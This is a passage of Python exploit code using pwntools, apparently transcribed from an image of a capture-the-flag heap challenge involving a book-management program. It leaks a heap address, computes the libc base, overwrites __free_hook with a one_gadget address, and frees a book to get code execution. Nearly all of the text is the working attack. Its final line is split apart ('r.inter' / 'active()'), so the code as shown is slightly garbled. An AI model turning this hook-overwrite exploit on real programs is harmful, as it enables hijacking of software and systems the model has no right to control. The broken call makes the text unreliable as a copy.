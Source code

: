 ```python
book2_description = u64(book_description_1.ljust(8, b'\x00'))
log.success('book2 name address: ' + hex(book2_name))
log.success('book2 description address: ' + hex(book2_description))

libc_base = book2_description + 0x43FF0
log.success('libc base: ' + hex(libc_base))

free_hook = libc_base + libc.symbols['__free_hook']
onegadget = libc_base + 0xE3B04
edit_book(b'1', p64(free_hook))
edit_book(b'2', p64(onegadget))
gdb.attach(r)
delete_book(b'2')

r.inter
active()
```